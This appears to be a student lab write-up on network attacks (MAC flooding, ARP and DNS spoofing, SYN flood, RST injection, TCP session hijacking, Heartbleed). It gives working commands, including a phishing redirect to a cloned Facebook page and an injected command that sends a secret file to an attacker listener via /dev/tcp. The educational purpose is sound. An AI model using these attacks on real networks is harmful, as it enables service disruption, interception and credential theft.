








# UTH 441 : Internet Protocols Design 2019-2020

# FINAL PROJECT: Common Network Protocol attacks

### Leuteris Chatziefremidis 2209

### Sotiris Evangelou 2159

### Spyros Panagiotopoulos 1777

## Contents:

1. Mac Table Overflow
2. ARP Protocol Spoofing
3. DNS Protocol Spoofing
4. TCP SYN Flooding
5. TCP RST Attack
6. TCP Session Highjacking
7. Heartbleed

# 1: Mac Table Overflow

## Introduction

MAC address flooding attack is very common security attack. MAC address table in the switch has the MAC addresses available
on a given physical port of a switch and the associated VLAN parameters for each.

This attacks are sometimes called MAC address table overflow attacks. To understand the mechanism of a MAC address table overflow attack we must recall how does a switch work in the first place.

## Switch before attack

When switch receives a frame, it looks in the MAC address table (sometimes called CAM table) for the destination MAC address. When frames arrive on switch ports, the source MAC addresses are learned from Layer 2 packet header and recorded in the MAC address table.

If the switch has already learned the MAC address of the computer connected to his particular port then an entry exists for the MAC address. In this case the switch forwards the frame to the MAC address port designated in the MAC address table. If the MAC address does not exist, the switch acts like a hub and forwards the frame out every other port on the switch while learning the MAC for next time.

<div>
  
</div>

Computer A sends traffic to computer B. The switch receives the frames and looks up the destination MAC address in its MAC address table. If the switch does not have the destination MAC in the MAC address table, the switch then copies the frame and sends it out every switch port like a broadcast. This means that not only PC B receives the frame, PC C also receives the frame from host A to host B, but because the destination MAC address of that frame is host B, host C drops that frame.

<div>
  
</div>

## Normal switch function

PC B receives the frame and sends a reply to PC A. The switch then learns that the MAC address for PC B is located on port 2 and writes that information into the MAC address table. From now on any frame sent by host A (or any other host) to host B is forwarded to port 2 of the switch and not broadcast out every port. The switch is working like it should. This is the main goal of switch functionality, to have separate collision domain for each port on the switch.

<div>
  
</div>

## Attack

But this is where the attacker is coming into play. The key to understanding how MAC address table overflow attacks work is to know that MAC address tables are limited in size. MAC flooding makes use of this limitation to send to the switch a whole bunch of fake source MAC addresses until the switch MAC address table is fully loaded and can not save any more MAC address – Port mapping entries.

The switch then enters into a fail-open mode that means that it starts acting as a hub. In this situation switch will broadcasts all received packets to all the machines on the network. As a result, the attacker (in our case “PC C”) can see all the frames sent from a victim host to another host without a MAC address table entry.

<div>
  
</div>

In this case, an attacker will use legitimate tools for malicious actions. The figure shows how an attacker can use the normal operating characteristics of the switch to stop the switch from operating.

Let’s get into more detail about filling up the MAC address table. To do this attacker uses network attack tools for MAC. The network intruder uses the attack tool to flood the switch with a large number of invalid source MAC addresses until the MAC address table fills up. When the MAC address table is full, the switch floods all ports with incoming traffic because it cannot find the port number for a particular MAC address in the MAC address table. The switch, in essence, acts like a hub.In this lab we will reproduce the above example in order to understand how this attack works.

## Enviroment Setup

Firstly, we open up a terminal and type the below command:

- sudo apt update && sudo apt upgrade

After that our system is already updated and set in order to download the packages that we need for this lab.We will use a GitHub repository to retrieve the source code that we will use.So we clone the repository locally.

## Install Python and Clone the repository

- sudo apt install git && git clone https://github.com/echatzief/MAC_Address_Overflow
- sudo apt install python
- sudo apt install python-pip

## Install prerequisites

- cd MAC_Address_Overflow/
- sudo apt-get update
- sudo apt-get install -y git vim-nox python-setuptools python-all-dev flex bison traceroute
- pip install impacket

## Install Mininet

- cd mininet
- ./util/install.sh -fnv
- sudo apt-get install mininet
- sudo apt-get install xterm

## Install ltprotocol

- cd .. && cd ltprotocol/
- pip install setuptools
- sudo python setup.py install

## Link POX into the Directory

- cd .. && cd lab
- rm pox && ln -s ../pox/

## Configure the Environment

- bash ./config.sh

## Attack Demonstration

Firstly we launch a terminal in order to start the POX network controller, which will emulate the behavior of a L2 learning switch.

- ./run_pox.sh



In another terminal (if you are using a remote machine, make sure the X-forwarding is enabled.):

- ./run.sh

This will start the Mininet network emulator and there will be terminals pops up for each of the nodes in the network. Close the terminals for switches and controllers, but keep the terminals for Alice, Bob and Eve.





## In Alice's Terminal

Alice will now create some traffic by pinging Bob:

- ping 10.0.0.2

You should be able to see some output like the following:


## In Eve's Terminal

We will now run tcpdump to eavesdrop the traffic betweeh Alice (10.0.0.1) and Bob (10.0.0.2):

- sudo tcpdump -n host 10.0.0.1



Since the switch between Alice/Bob/Eve already learned about the address of Alice and Bob, it will not boradcast the packet and therefore Eve will not be able to see the packets between Alice and Bob.

Now, we will let Eve generate some ethernet packets with randomly generated source MAC address to overflow switches' MAC address table. To do so, let's create another terminal in screen for Eve by (Ctrl-a + c), then run the following command in the new screen:

- python attack.py



You should be able to see Eve starts sending a lot of packets into the network.

Back to Eve's first terminal (switch back by "ctrl+a 0). After the attack traffic overflowed swtiches' address table, switches will start to broadcast Alice and Bob's traffic and they should start showing up in Eve's tcpdump trace:



# 2: ARP Protocol Spoofing

## Protocol Description

The various applications use IP addresses to communicate with computers in other networks, but when in the same network, the communication is achieved using MAC Addressing in the Layer 2 of the OSI model.

A new computer connecting to the network doesn't know the MAC addresses if the machines it wants to reach and this is where <b>Address Resolution Protocol (ARP) </b> comes into play. ARP is used to find MAC addresses of computers using their IP address, and in the arp tables these pairings are kept by each computer.

## Attack Description

ARP <b>poisoning/spoofing</b> is when an attacker sends falsified ARP messages over a local area network (LAN) to link an attacker’s MAC address with the IP address of a legitimate computer or server on the network.
Once the attacker’s MAC address is linked to an authentic IP address, the attacker can receive any messages directed to the legitimate MAC address. As a result, the attacker can intercept, modify or block communicates to the legitimate MAC address.


## Preparation

In order to perform an ARP Spoofing attack, we created a victim VM (Ubuntu Server 19.04) in Virtualbox.


The MITM attack, through which we will perform ARP Spoofing will be performed from the host machine, using <b>Ettercap</b>.

After opening Ettercap in promiscuous mode and selecting Unified sniffing, we need to select our targets, that are 1) The victim VM and 2) The Gateway router. We are on the ethernet interface of our host so:


Using the default net tool ip we define our own IP and the gateway IP.
Let's use Ettercap's Host List utility to define the victim's IP:


We now have the 3 IPs needed:

<ul>
  <li> Attacker's IP: 192.168.1.116 </li>
  <li> Victim's IP: 192.168.1.111 </li>
  <li> Gateway IP: 192.168.1.254 </li>
</ul>
We choose the latter two as targets in Ettercap:


## ARP Spoofing/Poisoning

After choosing the targets we are selecting the tab MITM (Man In The Middle) and then ARP-poisoning. Some seconds later we can check the Wireshark packet log and see that the attack has successfully launched, as our IP is using the MAC address of each of the two targets. We can see the duplicate IP warning that ensures that the attack is taking place.


Now all the packets between the victim and the gateway are passing through our attacker host. We can ensure that by doing a simple PING between the two targets and checking one of those ICMP packets from wireshark in our attacker host:


Doing a simple <i> ip a </i> on our attacker host will show us that the source MAC address of the ICMP packet has the attacker's MAC as source.


This means that any of these packets are passing through our host that is the man in the middle, and we can see the packets passing through and do a lot of <i> nasty </i> stuff with the targets' connection.

# 3: DNS Protocol Spoofing

## Protocol Description

Whenever we surf the internet, we mostly visit websites using their hostnames (e.g. google.com, github.com etc.), not the IP addresses where these websites are hosted. In order to do that, some IP-Hostname pairs must exist, and this is offered by the DNS <b>(Domain Name Server)</b> protocol.
DNS is a distributed database implemented in a hierarchy of name servers. It is an application layer protocol for message exchange between clients and servers.


Whenever we want to know the IP for a specific domain name we need to do a DNS Request to a local nameserver.
If it has the answer stored in its database, it replies with a DNS Reply. If not, it requests one the root nameservers, that in turn routes the query to an intermediate or authoritative nameserver that can answer our request. At the end, we get back the IP corresponding to that domain name.

## DNS Spoofing description

During the ARP Spoofing markdown, we saw how if we are in the same local network, we can bring our computer to appear (maliciously) as the destination computer to a communication, and thus become a "proxy" between a connection, that can intercept or even tweak the packets coming through.

In such a way, we can intercept the DNS Requests coming through, and answer with our own crafted DNS replies that will match the wanted domain name (e.g. facebook.com) to an IP that we can control. If this succeeds, the victim entering facebook will land on our maliciously crafted replica, and enter their real credentials in our unsafe and controlled environment.


## Preparation

In order to prepare for the DNS spoofing attack we need to have a victim machine's IP, the gateway's IP, and we need to be in the same local network as the targets.
In order to intercept all DNS requests from the victim we need to perform a MITM attack, so before moving on to this lab, one should perform the steps described in the [arp_spoofing](https://github.com/EvangelouSotiris/uth441_network_attacks/blob/master/arp_spoofing.md) markdown first.

## Intercepting DNS packets as a MITM

After doing the steps mentioned above, we are now the Man in the Middle of the connection between the victim machine and the gateway. This means we are intercepting all the packets between them, such as the <b>DNS Request</b> packets.

- We can check that by doing a simple ping from the victim to a domain name such as google.com:
  
- On the attacker's machine we can intercept all the important DNS packets using appropriate filters:
  

## DNS Spoofing

As the attacker, since we are intercepting those DNS requests, we would also like to poison them in order to redirect to pages that we want (and control most often), instead of the domains the victim user asks for.

We can do this as well using ettercap, by choosing dns_spoof in the Plugins tab while arp poisoning the 2 targets:


- Let's say that we want to intercept the DNS requests for <b> Facebook.com </b> and we want to redirect the victim to a replica of the facebook login page that we crafted in order to steal credentials.

- Firstly we create the replica of the facebook login page using HTML and CSS:


- Then we need to set it up in our localhost as a website. We will use Apache2 for that cause. After moving the files in /var/www/html subdir we restart the apache2 service and we can now access the facebook replica page from http://127.0.0.1:80 .


- Now, we need to set up the appropriate file in ettercap in order to redirect the victim to our facebook replica when he asks for the facebook.com domain. Specifically in the <b> /etc/ettercap/etter.dns </b> we insert the following lines:


So, we are directing the requests asking for these domain names (facebook.com or any subdirectory in facebook.com) to our own IP and thus our made index.html. When the victim tries to ping facebook.com we see the following message in ettercap:


and from the victim side we can see that it looks for facebook.com on our attacker host:


Thus, when the victim tries to enter credentials and log in, we will be able to grab them plaintext from wireshark:


# 4: TCP SYN Flooding

## Description

TCP is a protocol in the Transport Layer that works on top of the IP Layer. It provides a way for network nodes to communicate realiably and guarranties the order and the consistency of the delivered messages. To achieve this communication, both ends require to maintain a connection.

Although internet applications such as the email, file transfer, HTTP etc. rely on TCP, it has no security mechanism built into the protocol. The messages are not protected so an attacker can read them, manipulate and change them, insert fake data and hijack connections.

Here, we will show some of the methods that can be used to attack a TCP connection such as:

- SYN flooding
- Reset attack
- Session hijack

## Attacks

### SYN flooding

With SYN flood, the attacker tries to consume enough resources of the attacked machine in order to make it unresponsive to legitimate users.

When a new TCP connection is attempted the client and the server exchange 3 messages

1. Client: `SYN`
2. Server: `SYN+ACK`
3. Client: `ACK`


> Image taken from Wikipedia, https://en.wikipedia.org/wiki/SYN_flood

The first `SYN` informs the server that a client wants to establish a new connection. The server stores this request in a queue and the connection is called a _half-open connection_. When the third step (the client sending the `ACK` ) is completed the request is removed from this queue.

In this attack, the queue of the half-open connections is used to make the server unresponsive to new clients. The attacker sends a lot of `SYN` without replying `ACK`, filling the queue and binding resources of the server. When a legitimate client tries to connect to the server, the server will not be able to accept new `SYN` packets.


> Image taken from Wikipedia, https://en.wikipedia.org/wiki/SYN_flood

#### Preparation

In order to perform a SYN flooding attack, we created 2 virtual machines in VirtualBox, one for the server and the other for a client.
The role of the attacker is given to the host machine.


To demonstrate this attack, we need to turn off the protection enabled by default (in Debian based OSes) using the command

```bash
sysctl -w net.ipv4.tcp_syncookies=0
```

To monitor the connections on the server, we will use a program called `netstat`, which is part of the `net-tools` package. Using the command `netstat -tna` we can see all the current active TCP connections on the machine.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:59831          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

As we can see, our machine is listening for SSH connections and the `ESTABLISHED` is an SSH connection from the host to the VM. We can also see that we don't have any `SYN_RECV` state. In normal situations there won't be many half-open connections.

To perform the attack we will use the `netwox` package which includes a tool that can launch a SYN flooding attack (tool number 76).

```
Title: Synflood
Usage: netwox 76 -i ip -p port [-s spoofip]
Parameters:
 -i|--dst-ip ip                 destination IP address {5.6.7.8}
 -p|--dst-port port             destination port number {80}
 -s|--spoofip spoofip           IP spoof initialization type {linkbraw}
 --help2                        display full help
Example: netwox 76 -i "5.6.7.8" -p "80"
Example: netwox 76 --dst-ip "5.6.7.8" --dst-port "80"
```

#### Attack

We want to target the SSH server running at the port 22 and the address of the machine is `10.2.1.16`. So, to perform the attack we need to execute

```bash
netwox 76 -i 10.2.1.16 -p 22 -s raw
```

After running this command, we execute again the `netstat` command on the server to see what is going on.

```
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            142.65.213.19:8969      SYN_RECV
tcp        0      0 10.2.1.16:22            42.82.247.152:23656     SYN_RECV
tcp        0      0 10.2.1.16:22            21.74.47.152:40124      SYN_RECV
tcp        0      0 10.2.1.16:22            219.199.203.189:16719   SYN_RECV
tcp        0      0 10.2.1.16:22            25.30.122.237:58762     SYN_RECV
tcp        0      0 10.2.1.16:22            8.107.205.103:57390     SYN_RECV
tcp        0      0 10.2.1.16:22            218.215.44.80:61166     SYN_RECV
tcp        0      0 10.2.1.16:22            190.69.210.6:22369      SYN_RECV
tcp        0      0 10.2.1.16:22            5.244.215.162:14775     SYN_RECV
tcp        0      0 10.2.1.16:22            111.93.83.52:57612      SYN_RECV
tcp        0      0 10.2.1.16:22            164.243.64.220:8708     SYN_RECV
tcp        0      0 10.2.1.16:22            27.189.25.159:18512     SYN_RECV
tcp        0      0 10.2.1.16:22            66.77.120.164:23110     SYN_RECV
tcp        0      0 10.2.1.16:22            81.225.85.217:25157     SYN_RECV
tcp        0      0 10.2.1.16:22            118.36.20.88:37156      SYN_RECV
tcp        0      0 10.2.1.16:22            131.13.233.59:2758      SYN_RECV
tcp        0      0 10.2.1.16:22            145.136.144.151:65212   SYN_RECV
tcp        0      0 10.2.1.16:22            122.252.244.20:31515    SYN_RECV
tcp        0      0 10.2.1.16:22            5.49.25.115:48337       SYN_RECV
```

The list of `SYN_RECV` connections is larger but it would be unecessary to show it all. We can see that all these connections target the port 22 and the foreign address looks random. After leaving this tool running for a couple of seconds, the server will not be able to receive new TCP connections.

We can verify this by trying to open a new SSH from the client.

```bash
user@client:~$ ssh user@10.2.1.16
ssh: connect to host 10.2.1.16 port 22: Operation timed out
```

We need to specify here that this attack will only affect the port 22 and the SSH service. If telnet was running on port 23 it would not be affected because the each port has its own connection queue. Also, the server will continue operating normally, without any indication that an attack is happening.

# 5: TCP RST Attack

There are two ways to terminate and established TCP connection between two hosts (let's call them A and B). The first way is done with A informing B that it wants to terminate the connection by sending a `FIN` packet and expects and `ACK` from B. If B wants also to terminate his side of the connection (because TCP connections are two one-way "pipes") can also send a `FIN` packet and after `ACK` is received the connection is considered closed.

The second way is for host A to send a `RST` packet. The `RST` packet will indicate to the receiving host that the connection should be terminated immediately. It is used in situations where there is no time to close the connection using the `FIN` packets and when there are errors detected in the connection.

Using the `RST` packet, an attacker can terminate an established connection without the consent of any of the legitimate users.

#### Preparation

We will use again 3 machines, one VM and the host as the legitimate users and the other VM as the attacker (see preparation in the previous attack).

#### Attack

Considering we know everything about the current connection between the server and the client (both source and destination IP and port number), we need to guess the sequence number because if it's not considered valid by the receiver our(the attacker's) packet will be discarded.
We will use wireshark to monitor the traffic between the two users and find the sequence number.

We will also use again the `netwox` program and the tool number 40 which can be used to send any TCP package.

```bash
user@client:~$ netwox 40 --help
Title: Spoof Ip4Tcp packet
Usage: netwox 40 [-c uint32] [-e uint32] [-f|+f] [-g|+g] [-h|+h] [-i uint32] [-j uint32] [-k uint32] [-l ip] [-m ip] [-n ip4opts] [-o port] [-p port] [-q uint32] [-r uint32] [-s|+s] [-t|+t] [-u|+u] [-v|+v] [-w|+w] [-x|+x] [-y|+y] [-z|+z] [-A|+A] [-B|+B] [-C|+C] [-D|+D] [-E uint32] [-F uint32] [-G tcpopts] [-H mixed_data]
Parameters:
 -l|--ip4-src ip                IP4 src {10.2.1.27}
 -m|--ip4-dst ip                IP4 dst {5.6.7.8}
 -o|--tcp-src port              TCP src {1234}
 -p|--tcp-dst port              TCP dst {80}
 -q|--tcp-seqnum uint32         TCP seqnum (rand if unset) {0}
 -B|--tcp-rst|+B|--no-tcp-rst   TCP rst
 --help2                        display help for advanced parameters
```

(We removed all the unused options from the parameters list because the list was huge)

By monitoring the connection in Wireshark, we can see the current sequence numbers, and we can use them to predict the next one. TCP has a certain "window" so we don't need to be extremely accurate.
Here are the connections to the server

```bash
user@server:~$ netstat -tna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 10.2.1.16:22            10.2.1.5:52494          ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN
```

and here is the latest sequence number as captured by Wireshark (Wireshark shows by default the relative sequence number and we need to turn it off)


By inspecting the other packets we can see that the sequence number increases by 36 almost every time, so 1806966531+36=1806966567 will be our guess.

We launch the attack by running

```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.16 -o 52494 -p 22 -B -q 1806966567
```

If we guess correctly, we will see on the client connected to the server this message

```bash
user@server:~$ packet_write_wait: Connection to 10.2.1.16 port 22: Broken pipe
```

which indicates that our attack was successful!

# 6: TCP Session Highjacking

A TCP hijack intercepts an established connection between two hosts. The attacker pretends to be one of the two hosts in the connection and this allows him to send packets that the other host will perceive as legitimate traffic.

Because the TCP protocol offers no security measures, it's easy for an attacker to perform this attack because a TCP connection consists of the IPs of the hosts and the ports they use and the traffic between them is unencrypted.

The only obstacle the attacker needs to overcome, is to correctly guess the sequence number of the packets so the crafted malicious ones won't be discarded as invalid.

#### Preparation

We will perform a TCP session hijack on an client that uses telnet to connect to a server. We selected telnet because the connection between the hosts is unencrypted, so it will be easier to demonstrate.

We will use again 3 machines, one VM and the host (10.2.1.5,10.2.12) as the legitimate users and the other VM as the attacker (10.2.1.13) (see preparation in the first attack).

#### Attack

The host (10.2.1.5) connects to the server using telnet. The goal of the attacker is to read the contents of a _top secret_ file in the server by hijacking the already established connection.

In order to obtain the sequence number of the connection, we will use again Wireshark to monitor the traffic.


We can see here the sequence number of the packets originating from our client and by pressing a key we can see that the next sequence number is included in the legit packet, so we can easily create our own malicious packet.


So, by intercepting the traffic, we managed to learn the five characteristics of the traffic we need to know. The source ip and port, the destination ip and port and the next sequence number.

Although the attacker can inject his own packets in the connection, cannot listen for the responses because they will arrive on the original client. To see the results of the executed command, we need to send the output to the machine of the attacker.

The program `netcat` allows us to create a simple TCP server on a specified port that we will use to listen for responses. We launch a server by running this command

```bash
nc -l -p 1940
```

Now, the attacker is listening for connections on port **1940** on all interfaces. We can verify this by connecting on that port using a different machine, but again we use `netcat`

```bash
user@client:~$ nc 10.2.1.13 1940
Hello from host
```

and on the attacker we will see the same as the output

```bash
user@attacker:~$ nc -l -p 1940
Hello from host
```

Also, we can use a special file in the `/dev` folder called tcp. If we redirect the output of a command to `/dev/tcp/10.2.1.13/1940`, the operating system will open a connection to IP 10.2.1.13 at the port 1940 and send the output of the command through this connection.

After we decided which command we want to execute, we need to convert it before sending it to a hex string. We can use Python to do this or any online converter. So, the command

```bash

cat top-secret.txt > /dev/tcp/10.2.1.13/1940

```

becomes **0a63617420746f702d7365637265742e747874203e202f6465762f7463702f31302e322e312e31332f313934300a0d** and this will be the data of the packet we will craft.

We will use again the `netwox` program and the tool number 40 which can be used to send any TCP package and we launch the attack by running this command

```bash
netwox 40 -l 10.2.1.5 -m 10.2.1.12 -o 61775 -p 23 -H "0a636174202f686f6d652f757365722f746f702d7365637265742e747874203e202f6465762f7463702f31302e322e312e31332f313934300a0d" -q 3321793573 -r 688874018 -z -A -E 2047
```

With the `-z` `-r` flags we set the acknowledgement number from the last packet sent by the server, and we can obtain this, again, from Wireshark. The `-E` flag sets the window size. We added new lines at the beginning and at the end of the command with the hex number _0a_ so we can make sure this attack works even if the client is in the middle of typing a command, and the _0d_ at the end because telnet commands end at the _\r_ character.

If we got the sequence and ack numbers correctly, after executing this command we will see that the `netcat` instance received the intended output

```bash
user@client:~$ nc -l -p 1940 -v
listening on [any] 1940 ...
10.2.1.12: inverse host lookup failed: Unknown host
connect to [10.2.1.13] from (UNKNOWN) [10.2.1.12] 34452
DONT READ THIS
CONFIDENTIAL FILE
```

Our attack worked!

But not only that. Because we injected a forged packet and the client has no idea about it, it will send a packet that contains an **old** sequence number that the server will ignore so it won't acknowledge it. The client then will keep resending the data and the connection will end up in a loop and the server will disconnect the client after a while. This is what we will see on Wireshark


# 7: Heartbleed

The Heartbleed bug is a severe implementation flaw in the OpenSSL library, which enables attackers to steal data from the
memory of the victim server. The contents of the stolen data depend on what is there in the memory of the server.

It could potentially contain private keys, TLS session keys, user names, passwords, credit cards, etc.
The vulnerability is in the implementation of the Heartbeat protocol,which is used by SSL/TLS to keep the connection alive.

## How Heartbleed works

To understand how the Heartbleed vulnerability works, you need to know a little bit about how the TLS/SSL protocols operate, and how computers store information in memory.

One important part of the TLS/SSL protocols is what's called a heartbeat. Essentially, this is how the two computers communicating with one another let each other know that they're still connected even if the user isn't downloading or uploading anything at the moment. Occasionally, one of the computers will send an encrypted piece of data, called a heartbeat request, to the other.

The second computer will reply back with the exact same encrypted piece of data, proving that the connection is still in place. Crucially, the heartbeat request includes information about its own length.

So, for example, if you're reading your Yahoo mail but haven't done anything in a while to load more information, your web browser might send a signal to Yahoo's servers saying, in essence, "This is a 40 KB message you're about to get. Repeat it all back to me." (The requests can be up to 64 KB long.) When Yahoo's servers receive that message, they allocate a memory buffer — a region of physical memory where it can store information — that's 40 KB long, based on the reported length of the heartbeat request. Next, it stores the encrypted data from the request into that memory buffer, then reads the data back out of it and sends it back to your web browser.

